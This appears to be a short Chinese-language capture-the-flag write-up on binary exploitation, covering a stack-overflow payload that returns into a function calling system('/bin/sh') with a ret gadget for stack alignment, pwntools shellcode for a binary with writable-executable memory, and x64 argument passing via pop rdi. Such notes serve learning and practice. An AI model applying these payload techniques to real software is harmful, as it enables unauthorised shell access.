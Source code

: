 ### level0
> 000400596 callsystem      proc near
> .text:0000000000400596 ; __unwind {
> .text:0000000000400596                 push    rbp
> .text:0000000000400597                 mov     rbp, rsp
> .text:000000000040059A                 mov     edi, offset command ; "/bin/sh"
> .text:000000000040059F                 call    _system
> .text:00000000004005A4                 pop     rbp
> .text:00000000004005A5                 retn
> .text:00000000004005A5 ; } // starts at 400596

__一个简单的栈溢出，但是遇到一些小问题
直接使用payload=b'a'\*128+b'a'\* 8+p64(callsys_addr)会打不通
这个需要涉及到ubuntu调用system需要对齐栈的问题，需附加一个ret来保持堆栈平衡，比如我随便找了一个ret地址0x4005C5，payload变成b'A' * (0x80 + 0x8) + p64(0x4005C5) + p64(callsys_addr)。这样就能打得通了
另外，直接将callsys_adrr改为59A也能正常运行__

以下内若为瞎猜的：
如果返回地址是call XXX（或push bp，mov bp,sp）需要平衡
如果是普通语句可以不平衡

### level1

checksec 时发现__RWX:      Has RWX segments__
这时考虑shellcode = asm(shellcraft.sh())

### level2_x64
64位的传递参数通过rdi
利用pop rdi;ret来实现传参
前6个参数依次存放于 rdi、rsi、rdx、rcx、r8、r9 寄存器中
第7个以后的参数存放于栈中
